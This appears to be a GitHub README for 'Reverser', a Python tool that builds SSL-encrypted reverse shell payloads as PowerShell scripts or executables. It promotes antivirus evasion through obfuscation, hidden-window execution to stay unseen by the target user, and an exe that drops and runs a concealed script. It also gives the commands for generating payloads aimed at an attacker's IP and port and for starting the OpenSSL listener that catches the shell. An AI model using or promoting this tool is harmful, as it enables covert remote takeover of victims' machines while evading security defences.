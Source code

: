 # Reverser Tool

**Reverser** is a Python-based tool designed to generate reverse shell payloads with SSL encryption. The tool provides the ability to create either a PowerShell script (`.ps1`) or an executable file (`.exe`) that establishes a secure reverse shell connection to a specified IP address and port.

## Features

- **SSL Encryption**: The tool generates an SSL certificate and key to encrypt the reverse shell communication, enhancing security and bypassing basic network security measures.
- **Payload Generation**: Users can generate either a PowerShell script or an executable file. The payload is obfuscated to avoid detection by antivirus software.
- **Randomized Obfuscation**: The tool can randomize the obfuscation of the payload to further reduce the chance of detection by static analysis tools.
- **Hidden Execution**: Both the PowerShell script and the executable are designed to run in a hidden window, minimizing the likelihood of detection by the target user.
- **Auto-generated Files**: The executable file, when run, generates the PowerShell script on disk, hides it, and executes it to establish the reverse shell connection.
- **Customizable**: The IP address, port, and output file names can be customized through command-line arguments.

# Installtion

Clone the repository:
```bash
git clone https://github.com/yourusername/Reverser.git
cd Reverser
```
Install the necessary dependencies:
```bash
pip install -r requirements.txt
```
Ensure Mono is installed:
```bash
sudo apt-get install mono-complete
```


## Usage

1. **Generating an SSL Certificate**:
   The tool automatically generates an SSL certificate and key that will be used to encrypt the reverse shell communication.

2. **Generating a Payload with Obfuscation**:
   - To generate a PowerShell script:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type ps1
     ```
   - To generate an executable:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe
     ```

3. **Generating a Payload with Random Obfuscationn**:
   - To enable randomized obfuscation:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type <exe | ps1> -random
     ```

4. **Starting an SSL Listener**:
   Once the payload is generated, start an OpenSSL listener on your machine to accept the reverse shell connection:
   ```bash
   openssl s_server -accept <Your_Port> -cert reception.pem -key reception.key -quiet

# PoC:
Creating an EXE file that executes Reverse Shell:

![image](https://github.com/user-attachments/assets/64ff1b49-f1c8-401c-8423-ab851c51c9b9)


Running the EXE file, creating an encrypted connection:

![image](https://github.com/user-attachments/assets/1a1bbdc3-b571-4239-a141-04cec47b40ce)


Receiving Reverse shell:

![image](https://github.com/user-attachments/assets/640cbfae-fb92-4515-b2bd-7df87bec7cf3)




